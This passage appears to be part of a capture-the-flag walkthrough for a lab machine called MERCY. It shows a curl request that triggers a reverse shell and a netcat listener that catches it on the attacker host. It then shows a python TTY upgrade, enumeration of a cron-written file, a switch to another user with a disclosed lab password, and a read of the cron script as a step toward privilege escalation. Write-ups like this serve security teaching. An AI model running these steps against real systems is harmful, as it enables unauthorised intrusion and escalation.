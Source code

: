 Then we perform the following curl request and we get a shell, also with python we spawn a TTY shell, as shown below:

```console
root@kali:~$ curl -s 'http://192.168.179.132:8080/reverse/'
```

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.132] 50554
id
uid=116(tomcat7) gid=126(tomcat7) groups=126(tomcat7)
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
tomcat7@MERCY:/var/lib/tomcat7$ uname -a
uname -a
Linux MERCY 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```

Enumerating in the web root directory we find the **time** file that contains the current date, it's possible that a cron job is redirecting the results to this file, and if we see the date when listing this file, the last time that it was modified, it was a few moments ago.

```console
tomcat7@MERCY:/var/www/html$ ls -la
...
-rw-r--r-- 1 www-data www-data   79 May  2 23:36 time
```

## Privilege Escalation
### Credential Disclosure

We switch to the user **fluffy**.

```console
tomcat7@MERCY:/var/www/html$ su fluffy
Password: freakishfluffybunny

$ bash
fluffy@MERCY:/var/www/html$ 
```

In the patrick home directory I found the **.private/secret/timeclock** file, that contains a bash script the same that redirects the date, other text and assigns www-data permissions to the **time** file, as shown below:

```console
fluffy@MERCY:~/.private/secrets$ cat timeclock
#!/bin/bash

now=$(date)
echo "The system time is: $now." > ../../../../../var/www/html/time
echo "Time check courtesy of LINUX" >> ../../../../../var/www/html/time
chown www-data:www-data ../../../../../var/www/html/time
```
